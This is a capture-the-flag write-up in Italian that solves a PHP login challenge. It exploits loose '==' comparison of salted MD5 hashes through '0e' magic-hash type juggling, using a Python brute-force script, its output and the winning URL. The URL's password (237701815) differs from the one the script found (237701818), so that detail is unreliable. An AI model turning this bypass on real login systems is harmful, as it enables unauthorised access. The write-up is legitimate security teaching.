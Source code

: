 ```yaml
---
title: "247ctf Compare the Pair"
date: 2025-10-19T23:44:44+02:00
draft: true
---
```


# Compare The Pair - WEB

- **Platform** 247ctf
- **Difficoltà:** Moderate (Relativo alla piattaforma)
- **Link** https://247ctf.com/  

## Descrizione

```
Can you identify a way to bypass our login logic? MD5 is supposed to be a one-way function right?
```

In questa CTF ci viene fornito un endpoint in cui viene mostrato il codice sorgente della pagina stessa. Il nostro obiettivo è bypassare la logica di login:

``` php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```

## Analisi

Il codice è strutturalmente molto semplice: la flag della CTF si trova nel file 'flag.php' che viene mostrato solo e soltanto se viene soddisfatta questa condizione:

`if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){`

Facendo un HTTP GET a questa pagina, impostando il query param "password" viene calcolato l'hash del parametro e confrontato con quello hardcoded del codice.

L’hash viene calcolato tramite la funzione `md5($salt . $_GET['password'])`. Da questo sappiamo che l’algoritmo di hashing utilizzato è MD5 e che viene applicato un salt, il quale viene semplicemente concatenato alla password fornita come parametro. Per nostra fortuna, sia il salt che l’hash della password sono entrambi hardcoded nel codice sorgente.

È molto semplice passare subito all'attacco con hashcat cercato di ottenere la password tramite bruteforce o facendo utilizzo di un dizionario, tuttavia è un metodo poco interessante e sopratutto non abbiamo la certezza di riuscire a ricavare la password in questo modo. Per questa CTF ipotizziamo che MD5 abbia un minimo di dignità e sia relativamente robusto. 

Guardando il codice attentamente c'è un particolare tanto subdolo quanto pericoloso: il modo in cui è fatto il confronto. Quello che può essere un banale operatore di confronto in PHP (`==`) nasconde un'insidia che può trarre in inganno chi non conosce PHP o chi ha sorvolato questo aspetto. PHP ha due operatori di confronto:

L'operatore "uguale" : 

```php
$a = 5;
$b = "5";
var_dump($a == $b); // true
```
Controlla se i valori sono uguali dopo la conversione di tipo (type juggling).

L'operatore "identico": 
```php
$a = 5;
$b = "5";
var_dump($a === $b); // false
```
Decisamente più robuto che controlla valore e tipo.

Nel nostro caso, il confronto che viene fatto è del primo tipo quindi gli operatori sono soggetti al type juggling.  Il type juggling è la conversione automatica di un tipo di dato in un altro, quando necessario. Non è una caratteristica unica a PHP, altri linguaggi non tipizzati hanno lo stesso meccanismo. Ma come possiamo sfruttarlo in questo caso?

Osserviamo attentamente l'hash della password hardcoded: `0e902564435691274142490923013038`

Come si può notare è un hash particolare in quanto costituito esclusivamente da numeri ad esclusione della seconda cifra che contiene il carattere `e`. Questa stringa assomiglia alla rappresentazione scientifica di un numero, in particolare 0 x 10^(902564435691274142490923013038), ovvero 0.
Questo genere di stringhe in PHP viene definito “numeric string” e, nel momento in cui le vogliamo confrontare, PHP le converte in numero. Questo significa che, se riusciamo a produrre un hash che sembri una numeric string e quindi un numero in notazione scientifica, non stiamo più confrontando stringhe, ma numeri. 
Per bypassare il login serve una password il cui hash (con salt) produca una stringa che inizi per 0e (cioè zeri seguiti dal carattere `e`) e contenga solo numeri.

## Soluzione

Passiamo ora a scrivere uno script per poter trovare la password che ci serve. Non sarà la soluzione più efficiente possibile ma fa il suo lavoro:

```python

import hashlib

salt = 'f789bbc328a3d1a3'
nonce = 1

print("Starting password cracking...")
while True:
    if nonce % 1000 == 0 and nonce != 0:
        print(f'Trying nonce: {nonce}')
    password = salt + str(nonce)
    hashed = hashlib.md5(password.encode()).hexdigest()
    if hashed[:2] == '0e' and hashed[2:].isdigit():
        print(f'Valid password found: {nonce}')
        print('Hash: ', hashed)
        break
    nonce += 1

```

Il suo funzionamento è molto semplice, attraverso una nonce che incrementiamo ad ogni iterazione, verifichiamo se il suo hash corrisponda al pattern che stiamo cercando. 

(Riflettendoci, concettualmente non è tanto diverso da mining :)  )

## Risultato

Dopo qualche minuto il nostro - non per nulla efficiente - script ci mostra una password valida:

```bash
Trying nonce: 237694000
Trying nonce: 237695000
Trying nonce: 237696000
Trying nonce: 237697000
Trying nonce: 237698000
Trying nonce: 237699000
Trying nonce: 237700000
Trying nonce: 237701000
Valid password found: 237701818
Hash:  0e668271403484922599527929534016
```

È importante notare come questa non è la password corretta, infatti l'hash è decisamente diverso da quello che abbiamo:

`md5('f789bbc328a3d1a3237701818') -> 0e668271403484922599527929534016 != 0e902564435691274142490923013038`

Tuttavia è una numeric string che causa questo comportamento:

```bash
php > echo '0e902564435691274142490923013038' == '0e668271403484922599527929534016';
1
```

Infatti qualunque stringa che segue il formato sarà true:

```bash
php > echo '0e902564435691274142490923013038' == '0e0';
1
php > echo '0e902564435691274142490923013038' == '0e123';
1
php > echo '0e902564435691274142490923013038' == '0e9999999999999';
1
```

Utilizzando la password trovata dal nostro script come query params ( https://8e2e86060d2436d1.247ctf.com/?password=237701815 ) otteniamo il nostro premio:

![FLAG FOUND]( /images/ctf/247ctf-compare-the-pair/flag_found.png )
